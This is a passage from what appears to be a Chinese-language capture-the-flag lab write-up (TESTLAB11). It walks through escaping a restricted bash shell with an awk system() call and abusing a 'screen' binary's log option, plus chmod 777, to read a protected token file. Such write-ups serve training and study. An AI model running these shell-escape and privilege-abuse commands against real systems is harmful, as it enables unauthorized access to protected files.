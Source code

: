 ![](/img/game/TESTLAB/TESTLAB11/192_168_11_3_screen_help.png)

直接利用`screen`进行日志指定输出到`/build/log/file.log`：

```bash
../screen/screen -L /build/log/file.log
```

直接回车之后又成了受限的bash。再次使用`awk`调用shell：

```bash
awk 'BEGIN {system("/bin/bash")}'
```

运行`ls -la`查看file.log文件是否生成。生成成功之后，使用`chmod 777 file.log`将其权限更改。

使用echo语句将需要读取的文件写入到`file.log`：

```bash
echo "/home/tester/token" > file.log
```
